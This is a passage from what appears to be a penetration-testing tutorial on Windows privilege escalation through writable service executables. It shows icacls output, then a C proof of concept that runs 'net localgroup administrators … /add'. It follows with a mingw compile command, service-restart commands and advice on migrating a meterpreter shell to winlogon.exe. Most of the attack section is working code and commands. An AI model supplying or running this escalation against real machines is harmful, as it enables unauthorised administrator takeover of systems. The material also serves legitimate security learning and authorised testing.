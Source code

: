 ```
C:\path\to\file.exe 
BUILTIN\Users:F
BUILTIN\Power Users:C 
BUILTIN\Administrators:F 
NT AUTHORITY\SYSTEM:F
```

That means your user has write access. So you can just rename the `.exe` file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

Here is a POC code for getsuid.

```c
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

We then compile it with mingw like this:

```bash
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```

**Restart the Service**

Okay, so now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using `wmic` or `net` the following way:

```
wmic service NAMEOFSERVICE call startservice
```

```
net stop [service name] && net start [service name].
```

The binary should now be executed in the SYSTEM or Administrator context.

**Migrate the meterpreter shell**

If your meterpreter session dies right after you get it you need migrate it to a more stable service. A common service to migrate to is winlogon.exe since it is run by system and it is always run. You can find the PID like this:

```
wmic process list brief | find "winlogon"
```

So when you get the shell you can either type `migrate PID` or automate this so that meterpreter automatically migrates.

[http://chairofforgetfulness.blogspot.cl/2014/01/better-together-scexe-and.html](http://chairofforgetfulness.blogspot.cl/2014/01/better-together-scexe-and.html)
